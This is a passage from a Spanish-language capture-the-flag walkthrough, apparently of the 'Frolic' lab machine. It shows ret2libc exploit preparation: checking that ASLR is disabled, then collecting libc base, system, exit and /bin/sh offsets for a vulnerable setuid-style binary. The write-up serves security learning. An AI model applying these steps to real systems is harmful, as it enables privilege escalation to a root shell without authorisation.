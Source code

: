 Antes de todo, hay que verificar si el [ASLR](https://es.wikipedia.org/wiki/Aleatoriedad_en_la_disposici%C3%B3n_del_espacio_de_direcciones){:target="\_blank"}{:rel="noopener nofollow"} está activado en la máquina víctima:

```
www-data@frolic:/dev/shm$ cat /proc/sys/kernel/randomize_va_space 
0
```
> Si el valor es `0`: No hay **aleatoriedad**. Todo es **estático**.
> 
> Si el valor es `1`: Aleatorización **parcial**.
> 
> Si el valor es `2`: Aleatorización **completa**. Todo está aleatorizado.

En este caso el valor es `0` lo que quiere decir esto es que las direcciones de memoria son **estáticas y no cambian**. Esto nos ayudará.
*
Ahora recolectemos las **direcciones de memoria** que necesitamos:

###### Libc addr

```bash
www-data@frolic:~$ ldd /home/ayush/.binary/rop
	[...]
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
	[...]
```
libc = `0xb7e19000`

###### system addr

```bash
www-data@frolic:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " system@@"
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```
system addr = 0x0003ada0

###### exit addr

```bash
www-data@frolic:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " exit@@"
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
```
exit addr = 0x0002e9d0

###### /bin/sh addr

```bash
www-data@frolic:~$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 15ba0b /bin/sh
```
/bin/sh addr = 0x0015ba0b

###### Nota

Todas estas direcciones son el `offset` de las instrucciones, luego hay que **sumar** estas direcciones a la **direccion base de libc** para obtener la dirección **real** de cada instrucción.
